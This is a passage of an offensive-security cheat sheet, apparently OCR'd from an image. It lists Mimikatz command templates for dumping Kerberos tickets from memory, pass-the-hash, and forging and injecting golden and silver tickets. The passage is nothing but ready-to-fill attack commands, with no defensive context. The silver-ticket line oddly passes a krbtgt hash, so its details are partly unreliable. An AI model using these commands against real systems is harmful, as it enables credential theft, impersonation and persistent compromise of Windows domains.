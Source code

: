 <span id="anchor-290"></span>MimiKatz Dump Tickets (From Memory)

<table>
<tbody>
<tr class="odd">
<td><p>privilege::debug</p>
<p>sekurlsa::tickets /export</p></td>
</tr>
</tbody>
</table>

<span id="anchor-291"></span>MimiKatz Pass-the-Hash (PTH)

<table>
<tbody>
<tr class="odd">
<td><p>privilege::debug</p>
<p>sekurlsa::pth /user:<strong>&lt;user&gt;</strong> /domain:<strong>&lt;domain FQDN&gt;</strong> /ntlm:<strong>&lt;hash&gt;</strong> /run:<strong>&lt;cmd&gt;</strong></p></td>
</tr>
</tbody>
</table>

<span id="anchor-292"></span>MimiKatz Pass-the-Ticket (PTT) - Generate
Golden Ticket

<table>
<tbody>
<tr class="odd">
<td><p>privilege::debug</p>
<p>kerberos::golden /user:<strong>&lt;user&gt;</strong> /domain:<strong>&lt;domain FQDN&gt;</strong> /sid:<strong>&lt;SID&gt;</strong> /krbtgt:<strong>&lt;hash&gt;</strong> /ticket:<strong>&lt;filename&gt;</strong></p></td>
</tr>
</tbody>
</table>

<span id="anchor-293"></span>MimiKatz Pass-the-Ticket (PTT) - Inject
Golden Ticket

<table>
<tbody>
<tr class="odd">
<td><p>privilege::debug</p>
<p>kerberos::golden /user:<strong>&lt;user&gt;</strong> /domain:<strong>&lt;domain FQDN&gt;</strong> /sid:<strong>&lt;SID&gt;</strong> /krbtgt:<strong>&lt;hash&gt;</strong> /ptt</p></td>
</tr>
</tbody>
</table>

<span id="anchor-294"></span>MimiKatz Pass-the-Ticket (PTT) - Generate &
Pass Silver Ticket

<table>
<tbody>
<tr class="odd">
<td><p>privilege::debug</p>
<p>kerberos::silver /user:<strong>&lt;user&gt;</strong> /domain:<strong>&lt;domain FQDN&gt;</strong> /sid:<strong>&lt;SID&gt;</strong> /krbtgt:<strong>&lt;hash&gt;</strong> /target:<strong>&lt;target FQDN&gt;</strong> /service:<strong>&lt;servicename&gt;</strong> /ptt</p></td>
</tr>
</tbody>
</table>
